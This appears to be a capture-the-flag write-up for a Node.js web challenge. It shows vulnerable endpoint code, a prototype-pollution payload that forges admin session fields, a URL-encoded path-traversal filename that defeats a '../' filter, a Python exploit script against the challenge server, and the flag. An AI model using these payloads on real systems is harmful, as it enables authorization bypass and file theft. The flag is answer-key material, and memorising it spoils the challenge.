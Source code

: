 # Welcome Christmas

### Category

Web

### Description

![alt](images/1.png)

### Solution

In the previous challenge, we were able to get a github repo, as well as a token. We will be able to download the repo to access the source code of this last application. Before the beginning of this challenge, I had two theories:
- We will have to make a malicious PR allowing to execute code on the machine which hosts the challenge
- The application we are going to get is hosted on a web server, and we will have to do a last exploit to read a file.

When we get the github repo, I will first see the file "docker-compose.yml", here, we can see a commented line that links us to the link where the server is hosted (http://54.157.87.12), so we leave on a web exploit to read a file.

After a quick read of the "index.js" source code, I notice the "/guinjutsu" endpoint :

```js
app.post("/guinjutsu",function(req,res){
	const filter={};
	merge(filter,req.body);
	console.log(req.session.isAdmin,req.session.username);
	if(req.session.isAdmin && req.session.username){
	var filename=req.body.filename;
	if (filename.includes("../")){
		return res.send("No No Sorry");
	}
	else{
		filename=querystring.unescape(filename);
		const data = fs.readFileSync(path.normalize("./"+filename), 'utf8');
		return res.send(data);
	}
	}
	else{
		res.send("Not Authorized");
	}
});
```

Having already done prototype pollution challenges in nodejs, I know that the merge() function is vulnerable (in a certain version of the package), to prototype pollution, and I suspect that it is the one used here.

So we can pollute our object to have a username and a valid isAdmin attribute :
```
{"__proto__":{"isAdmin":1,"username":"worty"}}
```

Here (by laziness) I will pollute all the objects directly rather than the one of the session.

Now we have to succeed in reading the file "/flag.txt", but there is a small filter on "../", but in its code, it uses the unescape function which allows to transform the encoded characters into valid characters (%2E => .).

So we will pass in parameter of the file to read "%2E%2E%2Fflag.txt" !

Again I made a small script in python that it does it and shows me the result :
```py
import requests
url = "http://54.157.87.12/guinjutsu"
res = requests.post(url=url,data={"__proto__":{"isAdmin":1,"username":"worty"},"filename":"%2E%2E%2Fflag.txt"})
print(res.text)
```

### Flag

Yogosha{You_Have_Really_Nailed_IT_And_Saved_Konoha}